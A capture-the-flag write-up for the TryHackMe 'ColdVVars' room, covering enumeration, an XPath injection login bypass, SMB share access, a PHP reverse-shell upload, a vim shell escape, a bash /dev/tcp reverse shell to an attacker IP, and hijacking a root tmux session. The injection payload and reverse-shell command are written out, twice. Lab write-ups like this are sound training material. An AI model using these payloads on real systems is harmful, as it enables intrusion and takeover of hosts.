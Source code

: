 # ColdVVars

* This is a writeup for the room ["ColdVVars"](https://tryhackme.com/room/coldvvars) by cirius & fl4shi3r at TryhackMe

* I completed this room using Parrot OS so there might be a syntax difference if you use another Linux distribution.

* This challenge is marked as MEDIUM difficulty but I believe hackers of all levels can complete it and learn a lot from it!

                ** HAVE FUN!! 
                
                
![alt_text](coldvvar/coldvvar1.png "image_tooltip")


* First we start with our nmap scan!


![alt_text](coldvvar/coldvvar2.png "image_tooltip")


* 2 SMB ports open (139, 445) and 2 HTTP ports open as well (8080, 8082)

* Doing a directory search on both HTTP ports using gobuster...

![alt_text](coldvvar/coldvvar3.png "image_tooltip")

![alt_text](coldvvar/coldvvar4.png "image_tooltip")


* We find /dev on port 8080 and /login on port 8082

* Taking a peek at the login page...


![alt_text](coldvvar/coldvvar5.png "image_tooltip")


* In the room description, it says "XPath Injection" (pro TryHackMe tip!! Looking at the room's description can give us 
a nice hint on how to solve it!!). If you are not familiar with this type of attack, there is absolutely no shame in just googling it!! There is no limit to how many new things you can learn by just googling attacks, exploits etc.

* Going through https://book.hacktricks.xyz/pentesting-web/xpath-injection you will see ...

![alt_text](coldvvar/xpath.png "image_tooltip")


* Great! Let's try that one then!! Insert `" or 1=1 or " `  in the username field ...


![alt_text](coldvvar/coldvvar6.png "image_tooltip")


* And the credentials we need are the last ones in the list!!

* Using a tool called `smbmap` we enumerate shares now that we have username:password!!


![alt_text](coldvvar/coldvvar7.png "image_tooltip")


* We see SECURE which is in Dev (we found a /dev on port 8080, remember??) 

* Using `smbclient` we check out that share and find a file called `note.txt`

* We cab check its contents quickly by using `curl`


![alt_text](coldvvar/coldvvar8.png "image_tooltip")


* Awesome!! That means we can upload files in there as well, which includes a reverse php shell!! (I uploaded the shell I used here in this repository, for easier, faster access)


![alt_text](coldvvar/coldvvar9.png "image_tooltip")


* We start a netcat listener, and activate our shell by simply using curl again ( you can also just do this through web browser!)


![alt_text](coldvvar/coldvvar10.png "image_tooltip")


* And we get our reverse shell!!


![alt_text](coldvvar/coldvvar11.png "image_tooltip")


* tmux, tmux, tmux ... hmmmmmmm ....look at that `zzzzzzzz root@localhost` output! (Can you guess what we will use to escalate privileges??) 

* But let's not get ahead of ourselves. First stabilize the shell, switch users and get user.txt


![alt_text](coldvvar/coldvvar12.png "image_tooltip")


![alt_text](coldvvar/coldvvar13.png "image_tooltip")


* Sweet. Going by the name of the room, we should go check `env` next!


![alt_text](coldvvar/coldvvar14.png "image_tooltip")


* In the middle of that output, something looks interesting ...`OPEN_PORT=4545` ... let's see if we can connect to this port using netcat ...


![alt_text](coldvvar/coldvvar16.png "image_tooltip")


* Choosing the option 4 (just type 4 and hit ENTER) will bring you to a vim page (yeah, UGH, I know lol) 


![alt_text](coldvvar/coldvvar17.png "image_tooltip")


* hit ESC before doing anything (or else you will be stuck in that vim nightmare forever!!)
* AFTER hitting ESC

    * :!/bin/sh
    * id (only to confirm! You will see "marston" which is a word that also appears there when we got the reverse shell)
    * open another terminal tab and start a netcat listener
    * type `bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'` but substitute the IP for your IP!
    
    
![alt_text](coldvvar/coldvvar18.png "image_tooltip")



* Remember all that tmux, tmux, tmux we saw when we got our reverse shell? We will attach to the tmux session and go to the window where marston used ssh as root! Follow this:

    * First stabilize the shell by typing `python3 -c "import pty;pty.spawn('/bin/bash')"`
    * Then next do Ctrl Z. It will appear as if you killed the shell, but no, you just detached from it
    * Next, type `stty raw -echo; fg`
    * Next, open another tab in your terminal and type `stty size` 
    

![alt_text](coldvvar/coldvvar19.png "image_tooltip")

    * These numbers might be different for you. These are the rows and columns the terminal window has.
    * Next go back to the tab where the shell is and type `stty rows 26 cols 96`  (substitute by the numbers that come to you)
    * Next type `export TERM=xterm`
    * Next type `tmux attach`
    

![alt_text](coldvvar/coldvvar21.png "image_tooltip")

* Now we need to find the window where the root is. To move windows, Crtl b, then hit n, until you see


![alt_text](coldvvar/coldvvar20.png "image_tooltip")


* To be able to type in the root window, Crtl b, then hit o


![alt_text](coldvvar/coldvvar22.png "image_tooltip")


* YAY!!!!! We did it!!! I am NOT a tmux fan/ user so this was quite a challenge!


![alt_text](coldvvar/coldvvarsfinal.png "image_tooltip")


I hope you enjoyed this super challenging room and thank you so much for reading my writeup!!

Happy Hacking!!


                   `Crypto Tzipi aka CyberLola`
















" or 1=1 or "


bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'

